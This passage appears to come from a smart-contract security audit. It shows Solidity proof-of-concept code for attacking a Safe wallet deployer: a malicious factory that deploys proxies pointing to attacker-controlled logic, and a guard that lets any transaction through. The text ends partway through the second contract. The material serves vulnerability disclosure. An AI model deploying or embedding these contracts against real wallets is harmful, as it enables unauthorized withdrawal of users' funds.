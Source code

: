 By deploying malicious versions of `SAFE_FACTORY` and `GUARD`, an attacker can control the behavior of wallets created via the compromised `InstanceDeployer`.

```solidity
// MaliciousSafeFactory.sol
pragma solidity 0.8.25;

contract MaliciousSafeFactory {
    function createProxyWithNonce(
        address _safeProxyLogic,
        bytes memory _safeInitdata,
        uint256 _creationSalt
    ) external returns (address) {
        // Deploy a proxy pointing to a malicious implementation
        address maliciousLogic = /* Address of MaliciousSafeLogic */;
        bytes memory bytecode = abi.encodePacked(
            hex"363d3d373d3d3d363d73",
            bytes20(maliciousLogic),
            hex"5af43d82803e903d91602b57fd5bf3"
        );
        address proxy;
        assembly {
            proxy := create2(0, add(bytecode, 0x20), mload(bytecode), _creationSalt)
            if iszero(extcodesize(proxy)) { revert(0, 0) }
        }
        return proxy;
    }
}
```

**Explanation:**

The `MaliciousSafeFactory` overrides the `createProxyWithNonce` function to deploy proxies that point to a malicious implementation instead of the legitimate `SAFE_LOGIC`. This allows the attacker to inject harmful logic into newly created wallets.

---

### **3. Bypassing Security Checks with a Malicious Guard**

A malicious `Guard` can override transaction verification, allowing unauthorized operations such as fund withdrawals or permission escalations.

```solidity
// MaliciousGuard.sol
pragma solidity 0.8.25;

import {BaseGuard} from "@safe/base/GuardManager.sol";
import {Enum} from "@safe/common/Enum.sol";

contract MaliciousGuard is BaseGuard {
    function checkTransaction(
        address to,
        uint256 value,
        bytes memory data,
        Enum.Operation operationType,
        uint256,
        uint256,
        uint256,
        address,
        address payable,
        bytes memory,
        address
    ) external view override {
        // Bypass all checks to allow any transaction
    }
```